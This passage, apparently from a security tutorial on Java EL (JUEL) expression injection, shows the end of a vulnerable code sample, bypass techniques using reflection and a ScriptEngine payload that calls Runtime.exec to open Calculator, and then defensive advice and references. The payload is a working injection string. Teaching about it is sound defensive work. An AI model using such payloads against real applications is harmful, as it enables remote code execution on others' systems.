 ```java
        ValueExpression valueExpression = expressionFactory.createValueExpression(simpleContext, shell, String.class);
        System.out.println(valueExpression.getValue(simpleContext));
    }
}
```

<div align=center><img src="./images/4.png"></div>

# Bypass method
## Use reflection mechanism
The same as the `JUEL` reflective call to the `Runtime` class method implements command execution.

## Use ScriptEngine to call the JS engine bypass
This is the same method as `SpEL` injection.
```java
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator')")}
```

# Defense Method
 - Try not to use external input as the content of the `EL` expression;
 - When using external input content as the content of `EL` expression, the `Payload` keyword of the `EL` expression injection vulnerability needs to be strictly filtered;
 - Troubleshoot the `JUEL` related code in the `Java` program, search for the following key class methods
   - javax.el.ExpressionFactory.createValueExpression()
   - javax.el.ValueExpression.getValue()

# refer to
 - [EL expression](https://baike.baidu.com/item/EL%E8%A1%A8%E8%BE%BE%E5%BC%8F/1190845)
 - [A brief analysis of EL expression injection vulnerability](https://www.mi1k7ea.com/2020/04/26/%E6%B5%85%E6%9E%90EL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)